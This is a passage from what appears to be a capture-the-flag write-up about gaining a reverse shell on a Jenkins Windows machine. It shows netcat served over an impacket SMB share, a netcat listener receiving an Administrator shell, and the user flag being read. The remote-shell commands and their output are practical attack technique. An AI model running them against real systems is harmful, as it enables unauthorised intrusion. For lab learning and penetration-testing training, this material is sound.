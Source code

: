 And it works!

Now we can get a reverse shell with ease.

First we are going to start by sharing a **netcat** with a **smb server**:
```bash
❯ ls
 nc.exe

❯ smbserver.py smbFolder $(pwd) -smb2support

Impacket v0.10.1.dev1+20220504.120002.d5097759 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

We are creating a folder named **smbFolder** synchronized with our current working folder.

Now we set a listener and execute it from the website:
{{< image src="/img/jev9.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We are using twice the amount of **\\** because of the syntax of the language.

Now we should get the connection to our netcat:
```bash
❯ rlwrap nc -lvnp 334
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::334
Ncat: Listening on 0.0.0.0:334
Ncat: Connection from 10.129.1.109.
Ncat: Connection from 10.129.1.109:49678.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>
```

I'm using **rlwrap** with the netcat so I can do things like ^L and using the arrow keys to navigate through the commands I've used.

Once inside we can find the **user.txt** in our user's Desktop:
```bash
dir

Directory of C:sers\kohsuke\Desktop

11/03/2017  11:19 PM    <DIR>          .
11/03/2017  11:19 PM    <DIR>          ..
11/03/2017  11:22 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   7,245,778,944 bytes free

type user.txt
e3232272596fb47950d*************
```
